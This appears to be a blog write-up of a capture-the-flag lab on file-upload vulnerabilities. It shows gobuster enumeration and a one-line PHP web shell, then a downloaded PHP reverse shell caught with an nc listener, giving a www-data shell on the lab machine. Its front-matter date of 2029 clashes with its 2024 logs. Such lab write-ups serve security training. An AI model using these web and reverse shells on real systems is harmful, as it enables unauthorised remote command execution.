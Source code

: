 ```yaml
---
layout: post
title:  "Upload Vulnerabilities"
date:   2029-01-24 13:50:01 -0600
categories: Discussions
---
```


first edit the host file and begin

``` bash
#/bin/sh
echo "10.10.232.106    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" >> /etc/hosts
```

In the gobuster part
```
gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/01/30 00:33:15 Starting gobuster
===============================================================
/REDACTED (Status: 301)
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2024/01/30 01:03:05 Finished
===============================================================
root@ip-10-10-106-1:~# 

```

Get either a web shell or a reverse shell on the machine.
Let's try a web shell first!

I'll create a file webshell.php
```
<?php echo system($_GET["cmd"]);?>
```
After several tries and remembering the path that I got from gobuster
```
view-source:http://shell.uploadvulns.thm/{REDACTED}/webshell.php?cmd=cat%20/var/www/flag.txt
```
But I like the reverse shell better

```
root@ip-10-10-106-1:~# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2024-01-30 01:08:39--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: \u2018php-reverse-shell.php\u2019

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2024-01-30 01:08:39 (51.5 MB/s) - \u2018php-reverse-shell.php\u2019 saved [5491/5491]

root@ip-10-10-106-1:~# sudo nano php-reverse-shell.php 

```
Then change to my AttackBox IP and port 9000

```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)

```
After figuring out that only 1 web file was loaded, I had to restart the machine and do it again to make it work, but eventually I got:
```
root@ip-10-10-106-1:~# nc -lvnp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from 10.10.120.163 33744 received!
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:35:34 up 1 min,  0 users,  load average: 0.62, 0.41, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /var/www/flag.txt

```